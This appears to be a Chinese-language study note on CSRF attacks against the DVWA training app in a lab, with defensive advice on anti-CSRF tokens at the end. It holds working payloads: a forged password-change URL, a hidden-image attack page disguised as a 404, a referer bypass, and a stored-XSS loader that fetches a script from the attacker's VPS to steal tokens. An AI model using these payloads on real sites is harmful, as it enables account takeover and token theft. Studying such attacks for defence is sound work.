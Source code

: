 ## dvwa 学习 csrf

### 参考资料

[DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)

### csrf 简介

利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账 、改密等）。

**CSRF攻击是源于Web的隐式身份验证机制！Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。CSRF的攻击一般是由服务端解决。**

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### session token

当客户端请求页面时，服务器会生成一个随机数Token，并且将Token放置到session当中，然后将Token发给客户端（一般通过构造hidden**表单**）。下次客户端提交请求时，Token会随着表单一起提交到服务器端。

### 环境

dvwa 服务器 192.168.255.151:8081

攻击者vps  192.168.1.101

### 攻击步骤

#### 1.编写 payload

```http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#```

受害者点击链接之后页面会跳转

需要注意，**CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面**

可以使用短链接来隐藏URL（点击短链接，会自动跳转到真实网站）：
如 [百度短链接](https://dwz.cn)

实际攻击场景下只要目标服务器的域名不是ip，是可以生成相应短链接的。

#### 2.构造攻击页面

a) 在公网上传一个攻击页面，诱骗受害者去访问

**用隐藏图片的src属性来发起恶意请求**

下面是html代码



	<img src="http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>
	
	<h1>404<h1>
	
	<h2>file not found.<h2>



当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack



b) 服务端验证了 host与 referer，使referer必须包含host

应对：构造文件名为 服务器名

可以将攻击页面命名为192.168.255.151.html ，页面放在攻击者vps上。

c) High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。


由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.255.151中，才有可能完成攻击

```ALTER TABLE guestbook MODIFY name VARCHAR(190);```


	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/g.js');
	document.getElementsByTagName('head')[0].appendChild(b);">

其中，steal.php在 ```https://github.com/leezp/note/blob/master/xss/dvwa-xss/steal.php```

这一步操作和high级别存储型xss一样，如图，获取到token。
![](token.PNG)


可见csrf要和xss结合使用才能发挥最大效果。这种组合叫**XSRF**。  但实际是否会存在一个时间差，获取到token了，如何监控？如何即时诱导用户是以后该思考的问题

## 防御

### Anti CSRF Token

例子： 

	1. 用户访问某个表单页面。 
	
	2. 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。 
	
	3. 在页面表单附带上Token参数。 
	
	4. 用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。 
	
	这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露。 

使用token可以有效防重放攻击。如果想要复制token，则必须先对页面访问一次，再复制token进csrf伪造页面发现已经无法使用(get请求使用token的情况(不推荐)，服务端已更新)。

有些服务端不是每次都更新token，而是在成功执行一次“增/删/改”后，server端更新token。这种情况，如果网站存在xss，则有可能通过xss获取token，再结合csrf。


## 后记

1.要避免"加token但不进行校验"的情况，在session中增加了token，但服务端没有对token进行验证，根本起不到防范的作用。 

2.**对数据库有改动的增删改操作，需要加token验证，对于查询操作，一定不要加token，防止攻击者通过查询操作获取token进行csrf攻击。**但并不是这样攻击者就无法获得token，只是增大攻击成本而已。 


## reference

[web安全之token](https://www.cnblogs.com/bukudekong/p/3829875.html)

[**Web安全之CSRF攻击**](https://www.cnblogs.com/lovesong/p/5233195.html)


## csrf 自动化检测思路

[CSRF-Scanner——打造全自动检测CSRF漏洞利器](https://security.tencent.com/index.php/blog/msg/24)